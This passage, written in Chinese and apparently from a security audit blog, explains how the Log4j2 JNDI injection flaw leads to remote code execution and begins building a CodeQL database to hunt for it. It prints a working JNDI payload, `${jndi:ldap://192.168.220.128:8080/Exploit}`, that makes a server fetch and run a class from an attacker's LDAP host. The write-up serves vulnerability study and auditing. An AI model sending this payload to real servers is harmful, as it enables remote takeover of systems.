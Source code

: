设置这个默认的等级需要在log4j2的配置文件中进行配置，如果是更改到debug，那么使用debug也可以执行。

### 0x02 审计后续逻辑

对如何进行RCE进行分析，命令执行示意图

![image-20230616163715890](img/image-20230616163715890.png)

大概过程是，攻击者将攻击payload`${jndi:ldap://192.168.220.128:8080/Exploit}`发送给存在漏洞的服务器，服务器的log4j2将会解析这个payload，解析${}，读取出其中的内容。判断其为Ldap实现的JNDI。调用Java底层的Lookup方法。请求Ldap服务器，获取到Ldap协议数据：此数据为攻击者搭建的恶意服务器，将会返回一个恶意文件服务端地址给受害者服务器，使其去请求这个恶意文件服务器，请求这个恶意文件，将其下载下来，使用类加载器去加载这个恶意class文件，然后将其进行实例化，最后在服务器上执行命令。

## CodeQL挖掘

### 0x03 创建log4j2 Database

平时创建codeql数据库时，可以使用这个项目https://github.com/waderwu/extractor-java

这次的项目，创建数据库使用命令即可

```bash
codeql database create log4j2-rce --language=java --source-root=D:\Demo\Java\Apache-Log4j2-RCE --overwrite
```
